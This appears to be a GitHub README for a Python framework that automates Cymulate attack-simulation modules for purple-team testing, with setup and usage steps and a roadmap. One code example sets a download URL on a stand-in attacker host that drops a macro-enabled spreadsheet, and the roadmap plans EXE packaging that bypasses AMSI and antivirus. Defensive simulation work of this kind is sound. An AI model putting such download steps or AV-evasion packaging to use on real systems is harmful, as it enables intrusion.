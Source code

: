 # cymulate-framework

![](https://i.imgur.com/B9Z8nyQ.png)

- **ⓘ Notice**: This project is still under development and not ready for production use.

- **⚠ Warning**: Do not run this project on production environment since it might harm your system.

## Introduction

The framework to automate Cymulate's modules and templates for purple team.

**What is Cymulate?**

> [Cymualte](https://cymulate.com/) is a BAS (Break and Attack Simulation) platform that provides a comprehensive set of attack simulations based on the **MITRE ATT&CK® framework** to test the effectiveness of your security controls.

This project is aimed to help purple team:
- **Red team** : Construct fully customizable and automated APT attacks easily.
- **Blue team** : Test their security defenses against APT attacks easily.

## Functionality

- [ ] Scrape modules and templates from Cymulate and transform them into scripts.
- [ ] Automate the execution of templates such as APT, Phishing, etc.
- [ ] Generate standalone EXE for templates and bypass AMSI, Antivirus

## Usage

Make sure `python 3.11+` and `poetry` are installed:

- **Python 3.11+** - https://www.python.org/downloads/
- **Poetry** - https://python-poetry.org/docs/#installation

```bash
git clone https://github.com/opabravo/cymulate-framework
cd cymulate-framework

# Install required python packages
poetry install

# Activate virtual environment
poetry shell

# Run default template (APT34)
python main.py

# Run desired execution module by id
python main.py <module_id>

# Ex:
python main.py 62385f03a0e69ed2274622cc
```

Batch Scripts:

- `client_start.bat` - Reset and update to the latest version of the framework then run `main.py`

## How it works

Cymulate's execution module have 5 main steps:

1. **Check dependency** - Check if required dependencies are installed.
2. **Execution** -Run the mitre ATT&CK technique execution.
3. **Success Indicate** - Check if the attack was successful via parsing execution output or check exit code.
4. **Output Parsing** - Parse the output of the execution for further uses.
5. **Cleanup** - Clean up the execution environment.

The framework will automate the execution of the above steps.

## Customization

We can pass self defined parameters to the execution module like this:

```python
# Import windows module from core
from core.module.windows import WindowsModule

# Create a windows module instance
execution = WindowsModule("62385f03a0e69ed2274622cc", log_level="DEBUG")

# Update the input arguments to your own ones
execution.input_arguments.update({
    "download_file_url": "https://attacker.com/very_dangerous_excel.xlsx",
    "download_file_path": "$env:userprofile\Downloads\Income.xlsm",
})

# Execute the module after initialization
execution.run()
```

## Development

### Blueprint

- `Basic structure` - The basic structure of the project.
- `APT template` - APT template automation test.
- `Scrape modules and templates` - Scrape modules and templates via Cymulate's [API](https://api.app.cymulate.com/docs/#/)
- `Transform modules and templates` - Transform modules and templates into cymulate-framework modules.
- `Automate execution` - Automate the execution of templates.
- `APT Script generator` - Generate scripts for APT template with extracted specific execution scripts (don't wanna load the 20+mb json file) and load corresponding required 3rd party pip packages into scripts
- `Pack Script to EXE` - Pack generated template script with its requirements(pip packages, execution scripts) into EXE via `pyisntaller`, `py2exe` or `Nuitka`
- `ClI` - A CLI to interact with the framework.

### Notes

- Using `builtin dataclass` + `dacite` for JSON deserializing model instead of `pydantic` since `dacite` is enough for the purpose.

## Contributing

Feel free to submit pull requests and issues.

## License

[MIT](https://choosealicense.com/licenses/mit/)
